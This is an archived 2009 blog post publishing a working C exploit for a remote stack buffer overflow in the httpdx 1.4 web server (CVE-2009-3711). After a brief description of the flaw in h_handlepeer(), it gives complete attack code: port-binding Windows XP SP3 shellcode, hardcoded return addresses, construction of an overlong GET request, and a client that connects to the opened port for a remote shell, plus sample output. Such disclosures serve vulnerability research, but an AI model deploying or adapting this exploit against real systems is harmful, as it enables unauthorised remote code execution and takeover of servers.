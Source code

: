 ```yaml
---
author: pank4j
comments: true
date: 2009-09-04 00:38:36+00:00
layout: post
slug: httpdx-1-4-get-request-remote-buffer-overflow-exploit-0day
title: httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
description: httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
wordpress_id: 56
categories:
- Archive
tags:
- CVE-2009-3711
- exploits
- httpdx
- OSVDB-58714
---
```


httpdx is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the `h_handlepeer()` function. By sending an overly long HTTP GET request, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the application to crash.

This exploit is also available as a metasploit module [here](http://www.metasploit.com/modules/exploit/windows/http/httpdx_handlepeer). Thanks to Trancer for porting it to Metasploit.

{% highlight c %}
/*
 * httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
 *
 * Tested with httpdx 1.4 on Windows XP SP3
 *
 * Written and discovered by Pankaj Kohli
 * http://www.codepwn.com
 *
 * Greetz: str0ke
 *
 * httpdx web server 1.4 is vulnerable to a remote buffer overflow using long GET requests
 * such as http://www.example.com/aaa=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
 * The vulnerability lies in httpdx_src/http.cpp in h_handlepeer() : strcpy(index,client->filereq);
 *
 * pankaj@zion:~$ ./httpdxb0f 192.168.2.1 80
 *
 * ---------------------------------------------------------------------
 * [*] httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
 * [*] Written and discovered by Pankaj Kohli <http://www.codepwn.com>
 * [*] Tested with httpdx 1.4 on Windows XP SP3
 *
 * [+] Creating payload
 * [+] Connecting to 192.168.2.1 on port 80
 * [+] Sending payload
 *
 * [+] Dropping to shell
 *
 * Microsoft Windows XP [Version 5.1.2600]
 * (C) Copyright 1985-2001 Microsoft Corp.
 *
 * C:\Documents and Settings\pankaj\Desktop\httpdx1.4\root_example>
 *
*/

#include <stdio.h>
#include <stdlib.h>
#include <error.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <netdb.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

/* 128 byte portbinding shellcode (for WinXP SP3) port 58821
 Derived from shellcode written by silicon */
unsigned char bindcode[] =
"\x89\xE5"
"\x83\xC4\xEC\x33\xC0\x50\x50\x50\x6A\x06"
"\x6A\x01\x6A\x02\xB8"
"\x6A\x8B\xAB\x71" // WSASocketA()
"\xFF\xD0\x8B\xD8\x33\xC0\x89\x45\xF4\xB0"
"\x02\x66\x89\x45\xF0\x66\xC7\x45\xF2\xE5"
"\xC5\x6A\x10\x8D\x55\xF0\x52\x53\xB8"
"\x80\x44\xAB\x71" // bind()
"\xFF\xD0\x6A\x01\x53\xB8"
"\xD3\x8C\xAB\x71" // listen()
"\xFF\xD0\x33\xC0\x50\x50\x53\xB8"
"\x40\x10\xAC\x71" // accept()
"\xFF\xD0\x8B\xD8\xBA"
"\x63\xD3\x81\x7C" // SetStdHandle()
"\x53\x6A\xF6\xFF\xD2\x53\x6A\xF5\xFF\xD2"
"\x53\x6A\xF4\xFF\xD2\xC7\x45\xFB\x41\x63"
"\x6D\x64\x8D\x45\xFC\x50\xB8"
"\xC7\x93\xC2\x77" // system()
"\xFF\xD0"
"\x31\xC0\x50\xB8"
"\xFA\xCA\x81\x7C" // ExitProcess()
"\xFF\xD0";

/* ripped from TESO code */
void shell (int sock)
{
    int l;
    char buf[512];
    fd_set rfds;

    while (1) {
        FD_SET (0, &rfds);
        FD_SET (sock, &rfds);

        select (sock + 1, &rfds, NULL, NULL, NULL);
        if (FD_ISSET (0, &rfds)) {
            l = read (0, buf, sizeof (buf));
            if (l <= 0) {
                printf("\n - Connection closed by local user\n");
                exit (EXIT_FAILURE);
            }
            write (sock, buf, l);
        }

        if (FD_ISSET (sock, &rfds)) {
            l = read (sock, buf, sizeof (buf));
            if (l == 0) {
                printf ("\n - Connection closed by remote host.\n");
                exit (EXIT_FAILURE);
            } else if (l < 0) {
                printf ("\n - Read failure\n");
                exit (EXIT_FAILURE);
            }
            write (1, buf, l);
        }
    }
}

int main(int argc, char **argv)
{
    char buff[1100];
    long ret1 = 0x64f8134b; // pop ret (core.dll)
    long addr = 0x63b8624f; // Required to reach ret instruction
    long ret2 = 0x7c86467b; // jmp esp (kernel32.dll)
    long *ptr;
    struct sockaddr_in target;
    int i, port, sock;

    printf("\n---------------------------------------------------------------------\n");
    printf(" [*] httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day) \n");
    printf(" [*] Written and discovered by Pankaj Kohli <http://www.codepwn.com> \n");
    printf(" [*] Tested with httpdx 1.4 on Windows XP SP3 \n\n");

    if(argc < 3)
    {
        printf("[-] Usage: %s <Target IP> <Port>\n\n", argv[0]);
        exit(1);
    }

    port = atoi(argv[2]);
    printf("[+] Creating payload \n");

    memset(buff, 0, 1024);
    strcpy(buff, "GET /abc=");
    memset(buff+9, 'A', 616);
    ptr = (long *) (buff + 625);
    *ptr = ret1;
    ptr++;
    *ptr = addr;
    ptr++;
    *ptr = ret2;
    ptr++;
    *ptr = 0;
    strcat(buff, bindcode);
    memset(buff+765, 'A', 244);
    buff[1009] = 0;
    strcat(buff, " HTTP/1.1\r\nHost: 192.168.2.1\r\n\r\n");

    printf("[+] Connecting to %s on port %s \n", argv[1], argv[2]);
    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(argv[1]);
    target.sin_port = htons(port);

    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
        perror("[-] Socket \n");
        return(1);
    }

    if(connect(sock, (struct sockaddr *) &target, sizeof(target)) != 0)
    {
        perror("[-] Connect \n");
        return(1);
    }

    printf("[+] Sending payload \n");
    if (send(sock, buff, strlen(buff), 0)== -1)
    {
        perror("[-] Send \n");
        return(1);
    }

    close(sock);
    sleep(1);

    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(argv[1]);
    target.sin_port = htons(58821);

    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
        perror("[-] Socket \n");
        return(1);
    }

    if(connect(sock, (struct sockaddr *) &target, sizeof(target)) != 0)
    {
        printf("[-] Exploit failed. \n");
        return(1);
    }

    printf("\n[+] Dropping to shell \n\n");
    shell(sock);
    return 0;
}
{% endhighlight %}

